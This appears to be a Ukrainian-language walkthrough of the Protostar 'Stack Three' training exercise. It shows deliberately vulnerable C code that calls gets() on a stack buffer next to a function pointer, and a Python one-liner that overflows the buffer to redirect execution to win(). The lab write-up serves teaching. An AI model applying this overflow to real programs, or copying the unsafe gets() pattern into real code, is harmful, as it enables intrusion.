 ## [Stack Three](http://exploit.education/protostar/stack-three/)

Stack3 розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку (як прелюдія до перезапису збереженого EIP).

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Даний приклад коду виглядає дещо по-іншому. Немає змінної, яку потрібно модифікувати. Є тільки функція, яка ніколи не викликається і функція, яка викликається, але не задекларована.
Це натякає нам на перезапис EIP для виклику іншої функції. Тільки спочатку потрібно з'ясувати, яка адреса функції ```win()```. Із цим допоможе каманда ```objdump```:  
```objdump -x stack3 | grep win```  

Отже, маємо адрес функції  0x08048424.  

Тепер потрібно дізнатися скільки нам треба перезаписати до змінної ```fp```:  
```python -c "print 'a'*65" | ./stack3``` 

Як і очікувалося, ми отримали 0x00000061. Тобто, як і раніше, потрібно записати 64 байти у буфер, а далі адрес функції у реверсі (little endian):  
```python -c "print('a' * 64 + '\x08\x04\x84\x24'[::-1])" | ./stack3```